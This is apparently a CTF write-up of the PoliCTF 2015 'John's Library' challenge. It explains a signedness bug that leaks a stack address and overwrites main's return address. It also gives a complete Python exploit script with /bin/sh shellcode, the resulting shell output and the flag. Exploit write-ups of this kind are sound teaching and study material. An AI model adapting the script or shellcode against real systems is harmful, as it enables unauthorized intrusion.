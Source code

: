 ```yaml
---
layout: post
title: "PoliCTF 2015 John's Library"
date: 2015-07-12 17:20:52 -0400
author: [barrebas, swappage]
comments: true
categories: [polictf]
---
```


### Solved by barrebas and Swappage

Finally, pwnables! John's Library was worth 150 points. I was a bit rusty but I managed to grab this flag. 

<!--more-->

We're given a 32 bit Linux ELF. Upon running it, we're presented with a library menu, where we can view titles, add them and exit the program:

```bash
Welcome to the jungle library mate! Try to escape!!
 
 r - read from library
 a - add element
 u - exit
a
Hey mate! Insert how long is the book title: 
10000
Hey you! what are you trying to do??
```

So we can't really add long titles. Upon inspection, Swappage and I noticed that the titles are stored on the stack, with the lengths in a special data structure in the `.data` of the binary:

```
 8048731: mov    eax,DWORD PTR [eax*4+0x804a060] ; 0x804a060 contains lengths
 8048738: mov    edx,eax
 804873a: mov    eax,DWORD PTR [ebp+0x8]         ; ptr to first book
 804873d: add    eax,edx                         ; add length of last string to it
 804873f: mov    DWORD PTR [esp],eax
 8048742: call   8048410 <gets@plt>              ; grab book title
```

I noticed I could bypass the length check with a large number, effectively utilizing a signedness bug. This allowed us to overwrite the return address of `main()` on the stack. Although NX wasn't enabled, ASLR was enabled so we couldn't just jump to the shellcode on the stack. There weren't enough gadgets for a ROP chain. Instead, we needed to leak a stack address so we could return to the shellcode on the stack (bruteforcing it didn't work). That's where the read function came into play.

Looking up a book title via the read function was done like this:

```
 8048678: mov    eax,DWORD PTR [ebp-0xc]         ; number we just submitted
 804867b: mov    eax,DWORD PTR [eax*4+0x804a060] ; grab length of that book title
 8048682: mov    edx,eax
 8048684: mov    eax,DWORD PTR [ebp+0x8]         ; pointer to book titles on stack
 8048687: add    eax,edx                         ; add length of string so eax points to book title 
 8048689: mov    DWORD PTR [esp+0x4],eax
 804868d: mov    DWORD PTR [esp],0x8048893
 8048694: call   80483f0 <printf@plt>            ; dump title to user
```

By passing in a negative number, I was able to make `804867b: mov eax,DWORD PTR [eax*4+0x804a060]` point to `0x80493fc`, which contained `0xffffffe0`. Therefore, when this value is added to the pointer to the book titles, it actually is moved backwards and starts leaking stack addresses:

```
0xffffd1ab (address of book titles on stack) + 0xffffffe0 => 
gdb-peda$ x/10x $eax
0xffffd18b: 0x048614->ff    0xffd1ab<-08    0x000002ff  0x15fd7c00
0xffffd19b: 0x15fd7c00  0x15fd7c00  0x0000f000  0x0000f000
```

I now had a way to leak the book title buffer on the stack, where we could store shellcode in a book title. By exploiting the signedness bug, we could overwrite the return address of `main()`. After setting all of this up, we'd ask the binary to exit and make it return to our shellcode. Putting it all together:

```python
from socket import *
import struct, telnetlib, re, sys, time

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)
    
def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    s.connect(('library.polictf.it', 80))

    readtil('exit')
    
    # mem leak
    sendln('r')
    readtil('read:')
    sendln('-793')  
    # -793*4 = 0xfffff39c; 
    # 0x804867b <read_from_library+58>: mov eax,DWORD PTR [eax*4+0x804a060] 
    # -> 0x80493fc == 0xffffffe0
    
    # leak stack addr
    time.sleep(0.1)
    buf = s.recv(20)
    stackaddr = struct.unpack('<L', buf[6:10])[0]
    print hex(stackaddr+100)
    readtil('exit')
        
    sendln('a')
    readtil('title:')
    sendln('1')
    sendln('b')
    
    readtil('exit')
    
    sendln('a')
    readtil('title:')
    # 2**32 -> integer overflow, 
    # we now have plenty of space to overwrite the saved return address
    sendln('4294967296') 
    
    # the reason i divided the nop sled is simple; for some reason, when the shellcode executes, 
    # it overwrites itself if it's at the end. this solves it; didn't debug it 
    sendln("\x90"*(0x30f-37)+"\x83\xec\x7f\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcc\x80"+"A"*0x100+p(stackaddr+200)) # 0xffffd1ad -> start of our buffer
        
    readtil('exit')
    sendln('u')
    
    t = telnetlib.Telnet()
    t.sock = s

    t.interact()

    s.close()

pwn()
```

And running it:

```bash
bas@tritonal:~/tmp/polictf/johns-library$ python sn0w.py 

id
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
cd /home/ctf
ls
challenge
flag
cat flag
flag{John_should_read_a_real_book_on_s3cur3_pr0gr4mm1ng}
```

The flag was `flag{John_should_read_a_real_book_on_s3cur3_pr0gr4mm1ng}`.

